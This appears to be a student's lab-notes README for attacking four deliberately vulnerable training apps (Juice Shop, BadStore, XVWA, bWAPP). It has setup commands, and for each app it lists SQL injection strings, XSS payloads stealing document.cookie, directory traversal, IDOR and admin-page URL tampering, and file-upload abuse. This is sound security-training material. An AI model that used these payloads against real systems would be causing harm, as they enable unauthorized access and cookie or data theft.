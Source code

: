 # mikeryan_vuln

install docker 

https://docs.docker.com/engine/install/debian/


[if there is an error like docker already running 

then run command 
sudo docker stop (container_name)

if required 
sudo docker rm (conatiner_name) ]


1) Juice Shop 

	install docker 

	sudo docker pull bkimminich/juice-shop

	sudo docker run -d -p 3000:3000 --name juice-shop bkimminich/juice-shop


Vulnerability 

	1) in url add: 
 	    localhost:3000/#/administration

	2) inside login 
	for username give 'OR 1=1-- and password anything

	3) go to inspect
	 add script inside div tag class="cdk-live-announcer-eleme cdk-visually-hidden"
	<img rc="invalid_image" onerror="alert('XSS')">

	4) Directory Traversal 
	http://localhost:3000/ftp

	5) Information Disclosure (API Data)
	curl -X POST http://localhost:3000/api/export-data -d "user_id=1234"

	info got in output

	Framework Info:Express.js
	Third-Party Libraries: Libraries like morgan
	File Paths and Line Numbers: Exposes internal paths, such as 
	/juice-shop/build/routes/angular.js, revealing where the error occurred in the 
	app.
	

if required
	sudo docker stop juice-shop
	sudo docker rm juice-shop



2) BadStore

	sudo docker pull jvhoof/badstore-docker
	sudo docker run -d -p 80:80 jvhoof/badstore-docker

	http://localhost

vulnerability 

     1) in search bar add 

        <script>alert('XSS')</script>

         you will get xss

	2)  in search bar add
	<script>alert(0)</script>
 
	you will get pop up showing reflected XSs

	3) in supplier login 
	within email address add payload 

	1’ or ‘1’=’1-- -  
	or 
	admin

	you will be able to login as a supplier 

	3) Click on supplier contract and it will download the contract without you being 	an authenticated supplier ie. you have not logged in as supplier yet 

	4) in browser url add

	http://localhost/cgi-bin/badstore.cgi?action=admin

	u will directly log in as admin and showing BAC

	5)  in terminal , information disclosure for server used

	curl -I http://localhost/cgi-bin/badstore.cgi

	6) SQL injection , found all available products 
	http://localhost/cgi-bin/badstore.cgi?action=search&search&query=1'OR'1'='1





3) XVWA


download iso file 
https://www.vulnhub.com/entry/xtreme-vulnerable-web-application-xvwa-1,209/


run the iso file on vm ware 
once open xvwa 

ifconfig on xvwa machine 

using that ip , on kali browser
do 
http://192.168.71.132/xvwa/


vulnerability 

	1) server side template injection 

	there add <script>alert(0)</script>

	2) in sql injection 

	add in search 1 or ' , and submit it will give error based output (reason upto)

	3) insecure object reference 

	in url item=some one number in range 1 to 5 
	but we give more than 5 still it take as input and display output 
	so first select item and submit , then change url 

	http://192.168.71.132/xvwa/vulnerabilities/idor/?item=7

	4) created a vulnerable payload using gedit or nano (eg add script to it)

	go to unrestricted file upload and upload image 
	no intput sanitisation 

	5) login using username pass admin and admin 
	then go to missing access control and you can delete select options

	then logout 
	and again go to missing access control there select an option 
	click on view 
	and on url change action=view to action=delete



4) BWAPP


docker pull raesene/bwapp

docker run -d -p 8080:80 raesene/bwapp

in browser 

http://localhost:8080/install.php

Login to bwapp
Username:bee
Password:bug

Find the vulnerabilities

	1) Sql injection(get search)

	‘OR 1==1—
	click search you will get , error based , click search again 

	2) Cross site scripting

	Select html injection (reflected)
	
	Then in frst and last name u add payload
	First name=<script>alert(document.cookie);</script>
	Last name=<img src=x onerror=alert(document.cookie)>
	Right click on page – view source page [check for script you have injected]

	3) information disclosure
	Select information disclosure-php version

	4) curl -I http://localhost:8080/login.php

	5) directory traversal-
	directories u select under a7 and press hack
	http://localhost:8080/directory_traversal_2.php?directory=documents
	
	remove documents and add =../
	Payload=http://localhost:8080/directory_traversal_2.php?directory=../

	6) oldbackup and unreferred file under a5
	
	Just change the url
	localhost:8080/sm_obu_files.php
	smo_obu_files.php change to backdoor.php

	





	 


                         

